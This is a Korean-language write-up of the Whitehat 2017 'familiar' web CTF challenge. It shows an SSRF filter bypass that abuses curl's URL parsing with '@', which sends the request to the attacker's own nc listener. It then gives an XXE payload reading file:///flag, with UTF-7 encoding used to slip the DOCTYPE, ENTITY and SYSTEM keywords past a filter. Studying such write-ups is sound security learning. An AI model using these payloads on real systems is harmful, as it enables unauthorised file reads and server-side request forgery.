# [WEB] Whitehat 2017 - familiar

## Description

>  [link][http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/]

## Analysis

사이트에 접속해서 둘러보면 거이 뷰 페이지 수준이다.

일단 메뉴는 총 4개가 존재한다.

1. Home
2. Photo
3. M/V
4. Flag

Flag에 들어가보면 `Flag is at /flag`라는 문구가 나온다.

URL을 한번 보자.

`http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=Y2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc=`

오 굉장히 뭔가 될거 같이 생긴 파라미터가 하나있다.

page파라미터의 값이 base64로 인코딩 되어 있으니 이를 해제해보자.

`cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag`

뭔가 굉장히 경로 처럼 생긴 값이 나왔다.

이 값을 `cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/`로 변경해서 보냈더니 `http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/.xml`가 존재하지 않다는 에러가 발생하였다.

조금 더 테스트를 해본 결과, php filter를 이용한 lfi는 안되고 아래와 같은 코드를 수행하는 것으로 예상된다.

```php
$url = $_GET['page'];
ssrf_check($url);
curl($url);
xxe_check($url);
xml_parse($url);
```

이 외에는 기능이 없는걸로 봐선 SSRF Filter와 XXE Filter를 우회하여 최종적으로 XXE를 수행하는 것이 목표인 것 같다.

# Exploit

1. SSRF
2. XXE

## 1. SSRF

간단히 테스트를 해본 결과 cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr로 요청이 되지 않으면 전부 SSRF 필터링에 걸리게 된다.

php의 curl함수를 이용하는 것으로 예상되는데, curl은 파싱과정에서 탈이 많은 친구이다.

간단히 우회해주자

`a@SERVER IP@cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/`

리스폰스 받을 서버에서 nc를 통해 열어주고, 위의 값을 base64로 인코딩 한 후 page파라미터의 값으로 서버에 요청한다.

```
Listening on [0.0.0.0] (family 0, port 10101)
Connection from [13.124.161.185] port 10101 [tcp/*] accepted (family 2, sport 39378)
GET /\.xml HTTP/1.1
Host: SERVER IP
Authorization: Basic cDo=
Accept: */*
```

오, 응답을 성공적으로 받았다.

이제 SSRF 필터링을 우회하였으니 XXE 공격을 해보자.

## 2. XXE

XXE 공격을 하기위해 빠르게 XML을 만들었다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY foo SYSTEM "file:///flag">]>
<content>
<script/>
<title>Flag</title>
<body>&foo;</body>
</content>
```

서버에 요청하였더니 XXE Filter를 우회하지 못하였다.

테스트 결과 아래의 문자열을 필터링하는 것 같다.

1. DOCTYPE
2. ENTITY
3. SYSTEM

UTF-7을 통해 필터링을 우회해보자. (참고 : [Wikipedia UTF-7][https://en.wikipedia.org/wiki/UTF-7])

```
<?xml version="1.0" encoding="UTF-7"?>
+ADw-+ACE-+AEQ-+AE8-+AEM-+AFQ-+AFk-+AFA-+AEU-+ACA-+AHI-+AG8-+AG8-+AHQ-+ACA-+AFs-+ADw-+ACE-+AEU-+AE4-+AFQ-+AEk-+AFQ-+AFk-+ACA-+AGY-+AG8-+AG8-+ACA-+AFM-+AFk-+AFM-+AFQ-+AEU-+AE0-+ACA-+ACI-+AGY-+AGk-+AGw-+AGU-+ADo-+AC8-+AC8-+AC8-+AGY-+AGw-+AGE-+AGc-+ACI-+AD4-+AF0-+AD4-+AAo-+ADw-+AGM-+AG8-+AG4-+AHQ-+AGU-+AG4-+AHQ-+AD4-+AAo-+ADw-+AHM-+AGM-+AHI-+AGk-+AHA-+AHQ-+AC8-+AD4-+AAo-+ADw-+AHQ-+AGk-+AHQ-+AGw-+AGU-+AD4-+AEY-+AGw-+AGE-+AGc-+ADw-+AC8-+AHQ-+AGk-+AHQ-+AGw-+AGU-+AD4-+AAo-+ADw-+AGI-+AG8-+AGQ-+AHk-+AD4-+ACY-+AGY-+AG8-+AG8-+ADs-+ADw-+AC8-+AGI-+AG8-+AGQ-+AHk-+AD4-+AAo-+ADw-+AC8-+AGM-+AG8-+AG4-+AHQ-+AGU-+AG4-+AHQ-+AD4-
```

서버에 요청하면 XXE Filter가 우회되어 플래그를 얻을 수 있다.



**Flag{dpvmdprtmdofqjaeocpdjswpskdhsi}**

